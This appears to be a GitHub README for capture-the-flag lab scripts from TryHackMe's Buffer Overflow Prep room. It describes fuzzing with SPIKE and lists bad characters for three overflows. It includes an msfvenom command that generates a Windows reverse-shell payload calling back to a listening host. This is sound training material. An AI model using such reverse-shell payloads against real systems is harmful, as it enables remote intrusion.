 # THM_Buffer-Overflow-Prep

Each folder numbered from 1 to x contains the scripts from fuzzing to the stage of creating a final POC 

Buffer overflow Room can be Found at:--> https://tryhackme.com/room/bufferoverflowprep

**command used for shellcode generation to Fit with scripts**

     msfvenom -p windows/shell_reverse_tcp LHOST=<The-Listening-ip> LPORT=<Listening-port> -f py -b "\<badChars-specific-to-overflow\>" EXITFUNC=thread -v shellcode

**command to be used with spike scripts to find payload triggering the crash**

     generic_send_tcp <target-ip> 1337{this port is specific to the oscp.exe} fuzz.spk 0 0
    
 More on spike:--> https://resources.infosecinstitute.com/topic/intro-to-fuzzing/
  
# About Fuzz.py Scripts
     
**The fuzz.py scripts will not Display the output Till you press CTRL + C {yeah I know add a except statement but i find no use in it lol} For this very reason a time dealy of 5 seconds is Added so as soon as you see the application crash in immunity press CTRL + C{in 5 sec delay} to stop the script and this would also give us the bytes at which application crashed**
     
     
# OVERFLOW 1

**Bad Chars:--> \x00\x07\x2e\xa0**


# OVERFLOW 2

**Bad Chars:--> \x00\x23\x3c\x83\xa0\xba**

# OVERFLOW 3

**Bad Chars:--> \x00\x11\x40\x5f\xb8\xee**


# NOTE

  *The badChars scripts present in each overflow directory contains a badChars variable from which also badchars specific to the overflow have been eliminated* 
  
 **scripts are to be run with python but you may adjust some encoding in place to make them work with python3** 
 
**Other Overflows will be added as I do them**
